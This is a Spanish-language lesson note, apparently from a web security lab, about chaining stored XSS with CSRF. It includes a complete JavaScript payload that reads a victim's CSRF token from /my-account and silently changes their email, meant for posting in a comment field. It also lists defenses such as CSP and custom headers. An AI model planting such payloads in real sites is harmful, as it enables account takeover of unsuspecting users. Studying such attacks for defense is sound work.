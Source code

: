 Esta lección continúa el ataque iniciado previamente, donde explotamos una vulnerabilidad de XSS almacenado para comprometer la protección CSRF de la aplicación.

En este caso, consolidamos la explotación automatizando todo el flujo: cuando una víctima visualiza el comentario malicioso, su navegador realiza una petición a su propia página de perfil, extrae el token CSRF del formulario oculto, y lo reutiliza inmediatamente para enviar una petición de cambio de correo electrónico sin que el usuario lo sepa.

Este enfoque permite realizar una acción sensible —como modificar información de cuenta— sin interacción directa por parte de la víctima, utilizando su sesión activa y su token legítimo.

La clase demuestra cómo XSS y CSRF pueden combinarse para romper la lógica de seguridad de muchas aplicaciones, y por qué es crucial implementar defensas adicionales como el uso de encabezados personalizados, políticas de contenido restrictivas (CSP), y el aislamiento del contenido generado por el usuario del contexto de ejecución del frontend.

Solucion seguimos con el codigo
![Pasted_image_20250717181112.png](/Imagenes/Pasted_image_20250717181112.png)
<script>
  var req = new XMLHttpRequest(); 
  req.open("GET", "/my-account", false); 
  req.send();
  var response = req.responseText;
  var csrf_token = response.match(/name="csrf" value="(.*?)"/)[1];
  var req2 = new XMLHttpRequest();
  req2.open('POST', '/my-account/change-email', true);
  req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  var data = "email=" + encodeURIComponent("pwned@pwned.com") + "&csrf=" + encodeURIComponent(csrf_token); 
  req2.send(data);
</script>

y lo ideal seria ponerlo en la seccion de comentarios
![Pasted_image_20250717181635.png](/Imagenes/Pasted_image_20250717181635.png)
